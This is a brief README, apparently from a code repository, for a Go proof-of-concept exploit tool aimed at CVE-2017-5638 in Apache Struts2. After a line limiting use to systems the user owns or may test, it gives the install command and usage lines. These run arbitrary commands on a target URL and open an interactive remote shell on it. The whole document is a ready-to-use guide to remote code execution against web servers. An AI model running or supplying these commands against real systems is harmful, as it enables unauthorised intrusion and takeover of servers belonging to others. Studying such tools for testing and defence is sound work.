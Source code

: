 # POC Exploit for CVE-2017-5638

**Only use this exploit on systems you own or have explicit rights to test**

## Installation

If you have go already installed on your computer, go get is the way to go

`go get github.com/Greynad/struts2-jakarta-inject`

## Usage

Single command execution

`struts2-jakarta-inject -u <url> -c 'id'`

Pseudo interactive shell

`struts2-jakarta-inject -u <url> -i`
